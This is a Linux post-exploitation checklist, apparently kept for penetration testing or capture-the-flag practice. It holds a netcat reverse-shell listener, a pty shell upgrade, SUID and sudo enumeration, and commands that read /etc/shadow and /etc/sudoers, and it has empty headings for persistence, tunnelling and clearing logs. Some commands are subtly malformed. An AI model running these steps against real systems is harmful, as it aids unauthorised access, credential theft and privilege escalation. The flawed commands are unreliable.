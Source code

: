 # Linux Runbook
* [Task List](#task-list)
* [Stabilize Shell](#stabilize-shell)
* [Copy tools to the target](#copy-tools-to-the-target)
* [Enumerate](#enumerate)
* [Establish tunnel](#establish-tunnel)
* [Establish persistance](#establish-persistance)
* [Automated Tools](#automated-tools)

## Task List

- [ ] [Stabilize shell](#stabilize-shell)
- [ ] [Copy tools to the target](#copy-tools-to-the-target)
- [ ] [Enumerate](#enumerate)
  - [ ] [System Info](#system-info)
  - [ ] [Permissions](#permissions)
  - [ ] [Processes and Services](#processes-and-services)
  - [ ] [Networking](#networking)
  - [ ] [Users and Groups](#users-and-groups)
  - [ ] [Tasks](#tasks)
  - [ ] [Logs](#logs)
  - [ ] [Installed software](#installed-software)
- [ ] [Finalize](#Finalize)
  - [ ] [Establish tunnel](#establish-tunnel)
  - [ ] [Copy information from the target](#copy-tools)
  - [ ] [Establish persistance](#establish-persistance)
  - [ ] [Clear logs]


## Stabilize Shell  

- Listen to reverse shell:

```bash
rlwrap nc -lvnp 443
```

- Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

## Copy tools to the target

## Enumerate

- ### System Info

  - System specific info
  
    ```bash
    cat /etc/issue 
    cat /etc/os-release
    uname -r
    arch
    id
    ```

- ### Permissions
  
  - Find suspicious files
    ```bash
    # Files with SUID bit
    find / -perm -u=s -type f 2>/dev/null
    # Directories with writable permissions
    find / -writeable -type d 2>/dev/null
    # Look for useful files
    find / -type f -name -o -name "*.txt" -o -name "*.kdbx" -o -name "*.zip" 2>/dev/null
    # Files that may give you have +x
    find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
    # Manually Enumerating Capabilities
    /usr/sbin/getcap -r / 2>/dev/null
    # List commands that user can run as sudo  - >  GTFObins
    sudo -l
    ```

  - Mounted permissions

    ```bash
    cat /etc/fstab
    lsblk
    ```

- ### Processes and Services

  - Running Processes

    ```python
    python3 -c 'import pty;pty.spawn("/bin/bash")'
     ```

- ### Networking
  
  - Ip info
    - ifconfig
    - netstat -an
    - ss -an
    - lsof -i
  - Routing info
    - routel
    - route
  - Firewalls
    - iptables (cat /etc/iptables/rules.v4)
    - ufw
  
- ### Users and Groups

  - Users

    ```bash
    - cut -d: -f1 /etc/passwd
    - ?sudo --version 1.18.31
    ```

  - Groups

    ```bash
    - cut -d: -f1 /etc/group
    - cat /etc/shadow
    - cat /etc/sudoers
    ```

- ### Tasks

  - Crontab

    ```bash
    ls -lah /etc/cron*
    crontab -l
    ```
  
- ### Logs

  - Bash history
  - /var/logs
  - user ./.bash_history
  - ls /opt; 
  - ls /var/mail
  
- ### Installed software

  - View installed software

     ```bash
    # rpm
    rpm -qa; yum list installed;
    # apt
     dpkg -l; apt list installed;
    ```

## Establish tunnel

## Establish persistance




## Automated Tools

- unix-privesc-check
- linpeas.sh
- pspy64
